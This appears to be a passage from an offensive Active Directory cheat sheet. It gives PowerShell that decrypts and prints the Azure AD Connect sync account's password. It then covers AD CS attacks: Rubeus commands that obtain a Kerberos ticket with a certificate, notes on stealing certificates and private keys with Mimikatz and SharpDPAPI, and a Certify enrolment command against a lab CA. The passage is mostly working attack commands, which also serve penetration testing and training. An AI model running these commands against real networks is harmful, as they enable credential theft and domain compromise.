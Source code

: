 ```powershell
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

## AD CS

##### Using Rubeus to request for a certificate

-   Rubeus and Kekeo support Kerberos authentication using certificates via PKINIT
    -   Schannel authentication also supports certificates (e.g., LDAPS)

```powershell
# Rubeus
Rubeus.exe asktgt /user:admin /certificate:cert.pfx /password:password
```

###### **"Passive"** Certificate Theft

-   If hardware protection is not used, existing user/machine certificates are stored using DPAPI
    -   *Mimikatz* and *SharpDPAPI* can steal such certs/private keys

###### **"Active"** Certificate Theft

-   Users/machines can enrol in any template they have Enrol permissions for
    -   By default the User and Machine templates are available
-   We want a template that allows for AD authentication
    -   Lets us get a user’s TGT (and NTLM!)
    -   Lets us compromise a computer through RBCD/S4U2Self
-   We can enroll through DCOM (Certify), RPC, and AD CS web endpoints

```powershell
# Certify
Certify.exe request /ca:da.theshrine.local\theshrine-DC-CA /template:user
```

### AD CS Abuse
